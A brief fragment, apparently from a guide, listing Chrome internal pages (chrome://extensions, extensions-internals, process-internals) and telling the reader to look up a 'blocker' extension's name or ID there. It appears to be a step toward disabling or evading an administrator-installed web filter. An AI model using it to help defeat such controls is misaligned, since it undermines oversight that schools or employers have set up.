`chrome://extensions` 
`chrome://extensions-internals` 
`chrome://process-internals` 
Search up the blocker ID on google if you have too 
If you can't find them in those URL'S Manualy then try to do ctrl + f and type in your blocker name or ID

</details>
